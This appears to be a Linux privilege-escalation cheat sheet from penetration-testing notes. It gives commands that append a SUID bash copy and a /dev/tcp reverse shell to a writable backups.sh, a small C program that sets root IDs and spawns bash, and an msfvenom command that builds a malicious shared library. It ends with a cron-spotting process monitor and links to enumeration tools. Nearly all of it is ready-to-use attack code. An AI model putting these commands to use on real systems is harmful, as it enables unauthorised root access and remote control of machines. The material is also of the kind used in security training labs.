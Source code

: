 #### Scripts

#### BASH

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> backups.sh

echo 'bash -i >& /dev/tcp/192.168.49.212/12445 0>&1' >> backups.sh
```

**SUID**

```bash
int main(void){
  setresuid(0, 0, 0);
  system("/bin/bash");
}

# Compile
gcc suid.c -o suid

```

#### MSFVENOM LIBRARY Priv Esc

```bash
msfvenom -p linux/x64/exec -cmd '/bin/bash' -f elf-so -o libmalbec.so PrependSetuid=TRUE
```

**PS Monitor for cron**

```bash
#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps -eo command)

while true; do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process") | grep [\<\>]
	sleep 1
	old_process=$new_process
done

#PSPY32 for PS monitor
./pspy32 
```

#### Linux Privesc Tools

* [GTFOBins](https://gtfobins.github.io/)
* [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
* [LinuxExploitSuggester](https://gitlab.com/kalilinux/packages/linux-exploit-suggester/blob/kali/master/Linux\_Exploit\_Suggester.pl)
* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)
